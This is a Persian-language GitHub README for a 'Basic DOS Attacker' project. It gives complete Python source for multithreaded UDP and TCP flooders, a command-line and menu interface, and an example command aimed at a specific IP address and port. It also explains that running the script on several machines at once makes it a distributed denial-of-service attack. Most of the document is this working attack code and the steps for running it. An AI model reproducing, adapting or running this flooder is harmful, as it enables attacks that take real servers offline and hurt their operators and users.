


# Basic DOS Attacker

این یک اسکریپت ساده و پایه ای جهت انجام حملات محروم سازی از سرویس است.
این برنامه از طریق ایجاد سیل هایی از بسته ها و ارسال آن ها به سرور مقصد باعث بالا رفتن لود سرور و در نهایت از کار افتادگی آن می شود.

## نصب ابزار مورد نیاز

این پروژه برای اجرا تنها به پایتون ۳ نیاز دارد. در این پروژه تنها از پکیج های داخلی پایتون استفاده شده است و نیازی به نصب پکیج بیرونی نیست.
لییست پکیج های داخلی به کار رفته در آن به صورت زیر است:
```bash
socket
threading
random
time
argparse
```

## اجرای اسکریپت

برای اجرای اسکریپت کافی است دستور زیر را اجرا کنید:
```bash
python main.py -a 188.121.110.10 -p 8085
```

همچنین برای مشاهده راهنمای برنامه و آرگومان های ورودی می توانید از دستور زیر استفاده کنید:
```bash
python main.py -h
```

برای خاتمه اسکریپت می توانید از سیگنال زیر استفاده کنید:
```bash
ctrl + c
```

آرگومان های ورودی به صورت زیر تعریف شده است:
```bash
usage: main.py [-h] -a ADDRESS [-p PORT] [-c CHOICE] [-m PACKETS] [-t THREADS]

Basic DOS Attacker

optional arguments:
  -h, --help  show this help message and exit
  -a ADDRESS  Hostname or IP address
  -p PORT     Port, default 80
  -c CHOICE   UDP or TCP, default UPD
  -m PACKETS  Num of packets in a socket, default 10
  -t THREADS  Num of threads, default 2
```

همچنین یک منو تعاملی با رابط ترمینال نیز فراهم شده است. برای اجرای آن می توانید از دستور زیر استفاده کنید:
```bash
python menu.py
```

## توضیح اسکریپت

نحوه ایجاد جریان یو دی پی در کد زیر وجود دارد که در ادامه توضیح داده خواهد شد:
```python
def udp_flooder(thread_number, ip, port, packets):
    data = random._urandom(1024)
    s = None
    while True:
        try:
            # UDP = SOCK_DGRAM
            s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
            address = (str(ip), int(port))
            for _ in range(packets):
                s.sendto(data, address)
            s.close()
            print(f"[{thread_number}] {packets} UDP packet sent")
        except (KeyboardInterrupt, socket.error):
            s.close()
            print(f"[{thread_number}] Error!")
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال یو دی پی است.
ابتدا یک داده با طول 1024 به صورت رندوم تولید می شود.
سپس در یک حلقه بی نهایت یک سوکت از نوع یو دی پی ساخته می شود.
با اتصال آی پی و پورت آدرس کامل به دست می آید.
سپس در اتصال سوکت به تعداد بسته های مطلوب بسته ارسال می کنیم.
در نهایت اتصال را می بندیم و لاگ آن را چاپ می کنیم.

نحوه ایجاد جریان تی سی پی در کد زیر وجود دارد که در ادامه توضیح داده خواهد شد:
```python
def tcp_flooder(thread_number, ip, port, packets):
    data = random._urandom(16)
    s = None
    while True:
        try:
            # TCP = SOCK_STREAM
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, port))
            s.send(data)
            for _ in range(packets):
                s.send(data)
            print(f"[{thread_number}] {packets} TCP packet sent")
            s.close()
        except (KeyboardInterrupt, socket.error):
            s.close()
            print(f"[{thread_number}] Error!")
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال تی سی پی است.
ابتدا یک داده با طول 16 به صورت رندوم تولید می شود.
سپس در یک حلقه بی نهایت یک سوکت از نوع تی سی پی ساخته می شود.
با اتصال آی پی و پورت آدرس کامل به دست می آید.
سپس اتصال تی سی پی برقرار می شود. مشاهده شد که در حالت تی سی پی نیاز به اتصال بود اما در یو دی پی اینطور نبود.
سپس در اتصال سوکت به تعداد بسته های مطلوب بسته ارسال می کنیم.
در نهایت اتصال را می بندیم و لاگ آن را چاپ می کنیم.

تابع زیر با گرفتن نوع اتصال تابع تولید کننده جریان را خروجی می دهد.
از این تابع برای انتخاب جریان ساز درون مدیر رشته های پردازشی استفاده خواهد شد:
```python
def flooder_selector(choice):
    if choice == "UDP":
        return udp_flooder
    elif choice == "TCP":
        return tcp_flooder
    else:
        return None
```

یک تابع برای مدیریت رشته های پردازشی ایجاد شده است:
```python
def thread_manager(threads, flooder, ip, port, packets):
    for i in range(threads):
        th = threading.Thread(target=flooder, daemon=True, args=(i, ip, port, packets))
        th.start()
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال است.
سپس به تعداد رشته های پردازشی مورد نیاز رشته حاوی جریان تولید می شود.
رشته های ساخته شده از نوع دیمن می باشند که در پشت صحنه رشته اصلی اجرا می شود و دارای اولویت کمتری نسبت به آن است. هنگامی که رشته اصلی از بین می رود تمامی رشته های دیمن نیز از بین خواهند رفت.

در نهایت یک تابع اصلی برای تجزیه آرگومان های ورودی و اجرای توابع بالا ایجاد شده است:
```python
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Basic DOS Attacker')
    parser.add_argument("-a", dest="address", required=True, help="Hostname or IP address")
    parser.add_argument("-p", dest="port", default=80, type=int, help="Port, default 80")
    parser.add_argument("-c", dest="choice", default="UDP", help="UDP or TCP, default UPD")
    parser.add_argument("-m", dest="packets", default=10, type=int, help="Num of packets in a socket, default 10")
    parser.add_argument("-t", dest="threads", default=2, type=int, help="Num of threads, default 2")
    args = parser.parse_args()

    ip = args.address
    port = args.port
    choice = args.choice
    packets = args.packets
    threads = args.threads

    flooder = flooder_selector(choice)
    thread_manager(threads, flooder, ip, port, packets)

    while True:
        time.sleep(2)
```
در انتهای این تابع یک حلقه بی نهایت ایجاد شده است تا رشته اصلی تمام نشود.
زیرا اگر این رشته تمام شود تمام زیر رشته های دیمن آن نیز خاتمه می یابند.

تابع منو نیز مشابه تابع بالا است اما به صورت تعامل از طریق ترمینال:
```python
if __name__ == '__main__':
    ip = str(input("Hostname or IP address: "))
    port = int(input("Port: "))
    choice = str(input("UDP or TCP: "))
    packets = int(input("Num of packets in a socket: "))
    threads = int(input("Num of threads: "))

    flooder = flooder_selector(choice)
    thread_manager(threads, flooder, ip, port, packets)

    while True:
        time.sleep(2)
```

## تبدیل به حالت توزیع شده
در صورتی که این اسکریپت به صورت همزمان و با ورودی های یکسان بر روی چندین ماشین اجرا شود تبدیل به یک حمله بسیار ساده توزیع شده محروم سازی از سرویس می شود.

DDoS Attack

## نتایج 
تصویر زیر منوی برنامه و نحوه ورودی گرفتن آن را نشان می دهد:



تصویر زیر نحوه لاگ های حالت یو دی پی به همراه آرگومان های ورودی برنامه را نشان می دهد:



تصویر زیر نحوه لاگ های حالت تی سی پی به همراه آرگومان های ورودی برنامه را نشان می دهد:


در دو تصویر بالا عدد درون براکت بیانگر شماره رشته پردازشی اجرایی می باشد.